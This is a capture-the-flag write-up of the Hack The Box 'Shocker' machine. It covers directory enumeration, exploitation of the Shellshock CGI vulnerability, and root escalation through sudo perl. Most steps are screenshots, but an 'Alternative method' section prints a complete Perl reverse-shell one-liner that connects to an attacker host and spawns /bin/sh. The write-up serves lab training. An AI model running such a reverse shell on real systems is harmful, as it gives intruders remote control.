 ```yaml
---
layout: post
title: "HTB Shocker write-up"
---
```


# **Recon**

`nmap` routine shows 2 TCP ports open on the target

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094035274/c913388e-a8d8-40b3-af52-2428eaa47c3b.png align="center")

directory enumeration on the Apache server is performed via `gobuster`

> Different wordlists may impact enumeration results

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094170011/98440997-56ad-4a85-affb-ab967b6c23ed.png align="center")

> `/cgi-bin` directory was discovered however the directory itself is not accessible (error code 403)

while we get a `403` trying to access `/cgi-bin` we could do a further dirbust to see if subsequent directories can be accessed

> always enumerate harder

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094267335/d9239033-d3a2-4956-a592-2088a5ce4f9a.png align="left")

> gobuster `-x` allows appending of file types, in this case according to the hints `/cgi-bin` is where apache stores scripts (`.pl, .sh` etc.) ref: [cgi enum wordlist](https://github.com/orwagodfather/WordList/blob/main/cgi-bin.txt) for more possible scripts that can be found

# Exploit

we notice that the Apache server is running an older version during recon phase, also given we find `.sh` shell scripts, we piece together two main keywords "apache" "shell script" to find the [CVE](https://www.exploit-db.com/exploits/34900) "Shellshock"

to test whether certain exploits are applicable we can first attempt to test our hypothesis using `nmap` scripts

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094289067/9b6d360f-308e-4739-aeeb-98631bf6854f.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094294056/cf79f0d1-554f-4da4-ac39-03e5cdd1f9ca.png align="left")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094298992/86a826fc-8045-42d9-bdc4-1a32413e7009.png align="left")

knowing the server is indeed vulnerable, we can try to run to exploit to gain foothold

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094315245/6b8f3624-178d-43b9-b516-fc9f41fe0576.png align="left")

> some errors were caught and after some "try hardering" it was related to the exploit being written in python2

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094380361/6aea2aab-9941-4035-b33f-e9a5cabbf052.png align="left")

after successfully configuring the payload, we can access the user flag

# Priv Esc

due to the box being an easy one, this process is very much a low-hanging fruit

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094436484/b9e595fa-710c-49af-8dc1-45d94c88dcbc.png align="center")

a quick GTFObins tour and we can successfully escalate to root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094449118/924b1f2e-e697-4afa-853b-4455d70e233a.png align="left")

## Alternative method

```bash
sudo perl -e 'use Socket;$i="$LHOST";$p=$LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

> this method spawns a reverse shell on your attacking machine instead

# Notes

> credits: ippsec [walkthrough](https://www.youtube.com/watch?v=IBlTdguhgfY)

* ## SSH, Apache version enumeration
    
    * crossref package version [site](https://packages.ubuntu.com) against different distro to enumerate which distro is being run
        
    * version last updated date = likely when the system was last updated 
        
* ## HTTP response `Content-Type`
    
    when accessing discovered scripts change the type to `text/plain` so the browser can display the content of the script. in the case where the browser cannot understand the extension, the content will not be displayed when visiting the site #http\_content-type
    
* ## HTTP/web-related `nmap` NSE script debugging
    
    in the case of `nmap` scripts failing, use burp proxy listener:
    
    * bind `localhost:8081` to `$target:$target_port` and `nmap` the `localhost`
        
    * start intercepting and debug the HTTP requests `nmap` sends
        
    * modify nse script accordingly #nmap
        
    
* ## RFC shenanigans
    
    * `nmap` shellshock scripts fail to list `cmd` response due to [RFC standards](https://www.rfc-editor.org/rfc/rfc9110.html): RFC HTTP response standards consist of `\r\n` delimiter between header and body
        
        ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094558051/75af4457-eead-42bd-b0d7-ceed686d610e.png align="left")
        
        ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1695094567545/d4c2a9c0-35bf-4f2c-b12b-e45f865485a5.png align="left")
        
        > `echo;` inserts a new line in the response, separating the header from the body (`ls` result) `/bin/ls` is used as `ls` returns negative results (alias/PATH not set)
